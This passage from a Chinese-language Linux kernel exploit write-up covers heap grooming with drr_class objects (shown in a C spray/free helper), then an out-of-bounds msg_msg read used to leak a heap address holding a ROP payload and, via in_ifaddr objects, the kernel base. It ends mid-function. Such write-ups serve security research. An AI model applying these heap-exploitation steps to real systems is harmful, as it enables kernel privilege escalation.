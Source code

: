 ```c
static void free_drr_classes(void)
{
    int i;

    for (i = 1; i <= SPRAY_PAGE_NUM * ONEPAGE_K128_NUM; i += ONEPAGE_K128_NUM) {
        send_del_class(U_QDISC_HANDLE | (i));
    }

    for (i = 1; i <= DRAIN_PAGE_NUM * ONEPAGE_K128_NUM; i += ONEPAGE_K128_NUM) {
        send_del_class(U_QDISC_HANDLE | (SPRAY_PAGE_NUM * ONEPAGE_K128_NUM + i));
    }

    for (i = 1; i <= SPRAY_PAGE_NUM * ONEPAGE_K128_NUM; i++) {
        if ((i % ONEPAGE_K128_NUM) == 1)
            continue;
        send_del_class(U_QDISC_HANDLE | (i));
    }

    printf("[+] Free drr_class to buddy done\n");
}
```

## info leak

现在通过改大m_ts去做msg_msg越界读，我们提前在生成msg_msg时，在其内容中放置有关qid信息，即可知道相邻msg_msg是属于哪个msg_queue了。在msgsnd中会将发送的msg_msg链入同一个`msq->q_messages`，这样新加入一个较大的带rop payload的msg_msg，越界读后即可泄漏出可控内容的堆地址：

```c
	if (!pipelined_send(msq, msg, &wake_q)) {
		/* no one is waiting for this message, enqueue it */
		list_add_tail(&msg->m_list, &msq->q_messages);
		msq->q_cbytes += msgsz;
		msq->q_qnum++;
		percpu_counter_add_local(&ns->percpu_msg_bytes, msgsz);
		percpu_counter_add_local(&ns->percpu_msg_hdrs, 1);
	}
```

至于泄漏内核基地址，先找一找在kmalloc-cg-128中有没有可利用的结构体，借鉴使用user_key_payload进行信息泄漏的[手法](https://veritas501.github.io/2022_08_11_%E5%9F%BA%E4%BA%8EUSMA%E7%9A%84%E5%86%85%E6%A0%B8%E9%80%9A%E7%94%A8EXP%E7%BC%96%E5%86%99%E6%80%9D%E8%B7%AF%E5%9C%A8%20CVE-2022-34918%20%E4%B8%8A%E7%9A%84%E5%AE%9E%E8%B7%B5/#0x00-%E7%AE%80%E5%8D%95%E5%9B%9E%E9%A1%BE%E4%B8%8A%E6%AC%A1%E7%9A%84%E6%89%8B%E6%B3%95)，CodeQL查询合适的结构体，虽然不多但可以使用[in_ifaddr](https://elixir.bootlin.com/linux/v6.1.72/source/include/linux/inetdevice.h#L145)结构体，通过[RTM_NEWADDR](https://elixir.bootlin.com/linux/v6.1.72/source/net/ipv4/devinet.c#L2789)删除网卡上的IP地址，[call_rcu](https://blog.csdn.net/zhoutaopower/article/details/86646688)写入inet_rcu_free_ifa的地址，再次使用越界读即可泄漏内核基地址。

![](https://image.baidu.com/search/down?url=https://wx3.sinaimg.cn/large/ee2fecafly1hme1hkkrnej215k0dqq6m.jpg)

```c
static struct in_ifaddr *inet_alloc_ifa(void)
{
	return kzalloc(sizeof(struct in_ifaddr), GFP_KERNEL_ACCOUNT);
}

static void inet_rcu_free_ifa(struct rcu_head *head)
{
	struct in_ifaddr *ifa = container_of(head, struct in_ifaddr, rcu_head);
	if (ifa->ifa_dev)
		in_dev_put(ifa->ifa_dev);
	kfree(ifa);
}

static void inet_free_ifa(struct in_ifaddr *ifa)
{
```